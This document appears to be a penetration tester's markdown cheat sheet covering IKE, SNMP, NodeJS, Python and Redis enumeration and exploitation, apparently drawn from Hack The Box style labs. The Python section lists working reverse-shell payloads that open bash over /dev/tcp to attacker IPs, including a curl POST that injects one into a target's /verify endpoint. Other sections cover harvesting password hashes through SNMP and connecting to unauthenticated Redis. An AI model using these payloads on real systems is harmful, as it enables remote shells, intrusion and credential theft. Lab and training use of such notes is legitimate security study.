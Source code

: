 
## IKE - Internet Key Exchange

- common port: `500/udp-tcp`
  - nmap sometimes says `isakmp?`
- Initial scan
  - `ike-scan IP`
- see also SNMP
  - port `161/udp-tcp`


## SNMP

- if you see this, maybe with IKE, can mean that this service is used to block any interaction from external hosts
  - if you can configure it, you can bypass this kind of proxy and rerun nmap
- common port: `161/udp-tcp`
- `snmpwalk -v2c -c public IP`
  - you might find a md5 or ntlm password
If you have found a password
1. `echo 'IP : PSK "PASSWORD1234"' >> /etc/ipsec.secrets`
2. `sudo gedit /etc/ipsec.conf`
3. `sudo ipsec stop`
4. `sudo ipsec start --nofork`
- See Hack The Box / Conceal
- When you run again nmap, use `-sT`


## NodeJS

- Reverse shell: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs
- If you find JS injection, you find RCE. Try this payload: `(function(){return 2+2;})();`
  - if the result is `4`, then it is a good sign


## Python

- https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1
- check if there is the library 'os', you can achieve RCE with `system('bash -i >& /dev/tcp/192.168.45.221/445 0>&1')`
- alternatives
  - `__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')#`
  - `curl -X POST --data-urlencode 'code=__import__("os").system("bash -i >& /dev/tcp/192.168.49.195/445 0>&1")#' http://192.168.195.117:50000/verify`
  - `code=__import__('os').system('bash+-i+>%26+/dev/tcp/192.168.49.195/445+0>%261')%2`


## Redis 6379

- `nmap --script redis-info -sV -p 6379 IP`
- `redis-cli -h IP`
  - try command `info`
  - if no login, run the command: `config get *`
- To dump the db: `redis-utils` and `redis-dump`
- Deafult config file: `/etc/redis/redis.conf`
